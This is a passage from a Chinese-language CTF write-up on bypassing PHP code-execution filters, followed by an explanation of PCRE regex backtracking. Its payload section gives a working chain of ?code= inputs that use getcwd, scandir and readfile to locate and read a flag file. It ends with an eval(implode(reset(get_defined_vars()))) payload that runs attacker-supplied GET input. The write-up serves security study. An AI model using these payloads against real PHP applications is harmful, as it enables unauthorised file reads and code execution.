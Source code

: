 

#### 探测到目录与文件情况后就可以进行构造payload

```
=>获得路径为/var/html
?code = print_r(getcwd());
=>查看路径下内容没有可用的
?code = print_r(scandir(getcwd()))
=>探测上一级为Array ( [0] => . [1] => .. [2] => flag_phpbyp4ss [3] => html )
?code = print_r(scandir(dirname(getcwd())))
=>发现flag文件，进行读取
?code = readfile(next(array_reverse(scandir(dirname(getcwd())))))
=>发现报错，不存在flag_phpbyp4ss文件，更改工作目录
?code = readfile(next(array_reverse(scandir(dirname(chdir(dirname(getcwd())))))))
```

会发现最后的payload多了一个dirname()，原因是因为dirname()中的path没有斜线就会返回本路径，不会影响最后结果。

另外在RCTF中，r-cursive中也用到了这个知识点，官方的解使用eval(implode(getallheaders()))，执行返回的HHTP头内的信息，更改头部信息加上cmd: phpinfo();// 达到命令执行。

但是该题目中却不可以，由于环境不同apache模块的函数不能在ngnix中执行，参照大佬们的思路，利用get_defined_vars()执行GET的参数


#### payload为：

```php
?1=readfile(../flag_phpbyp4ss);&code=eval(implode(reset(get_defined_vars())));
```


### php回溯机制

前面我们已经说到了PHP使用PCRE库，那么正则引擎就是DFA(确定性有穷自动机），使用回溯的方式进行匹配，

大致过程就是在对一个字符串进行匹配时，如果匹配失败吐出一个字符，然后再进行匹配，如果依然失败，重复上面操作.....


#### 举一个例子，更详细的阐述：

```php
<?php
preg_match('/<\?.*[(`;?>].*/','<?php phpinfo();//abc');
```


#### 过程：

```
<\?.* => <?php phpinfo();//abc
<\?.*[(`;?>] => <?php phpinfo();//ab
<\?.*[(`;?>] => <?php phpinfo();//a
<\?.*[(`;?>] => <?php phpinfo();//
<\?.*[(`;?>] => <?php phpinfo();/
<\?.*[(`;?>] => <?php phpinfo();
<\?.*[(`;?>] => <?php phpinfo()
<\?.*[(`;?>] => <?php phpinfo();
<\?.*[(`;?>].* => <?php phpinfo();//abc
```


[0]: http://51.158.75.42:8084/
[1]: http://www.php.net/manual)%EF%BC%8C%E8%BF%99%E4%B8%AA%E7%9C%9F%E7%9A%84%E6%98%AF%E5%A5%BD%E4%B8%9C%E8%A5%BF%E3%80%82%E4%BB%A5%E4%B8%8B%E6%98%AF%E5%AF%B9%E8%BF%99%E4%B8%80%E5%9D%97%E7%9A%84%E6%8E%A2%E7%A9%B6%EF%BC%9A
[2]: https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html